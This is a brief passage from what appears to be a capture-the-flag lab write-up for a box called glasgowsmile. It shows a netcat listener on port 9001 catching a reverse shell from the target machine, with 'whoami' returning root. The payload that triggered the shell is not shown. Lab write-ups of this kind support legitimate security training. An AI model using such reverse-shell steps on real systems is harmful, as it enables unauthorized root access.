 ```bash
exit 0


```

After a minute we get a reverse shell as root

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/glasgowsmile]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.202.79] 37926
whoami
root

```
